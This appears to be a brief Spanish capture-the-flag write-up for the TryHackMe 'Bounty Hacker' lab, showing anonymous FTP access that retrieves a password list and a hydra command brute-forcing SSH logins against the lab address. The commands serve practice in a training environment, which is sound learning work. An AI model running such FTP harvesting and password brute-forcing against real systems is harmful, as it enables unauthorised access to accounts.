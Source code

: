 # Bounty Hacker - TryHackMe 
**IP:**  10.10.0.212

## Acceso FTP Anónimo
```bash

ftp 10.10.0.212
anonymous
ls
mget *
Encontramos locks.txt (lista de contraseñas).
  ```
## Fuerza Bruta SSH
```bash
hydra -l lin -P locks.txt 10.10.0.212 ssh
  ```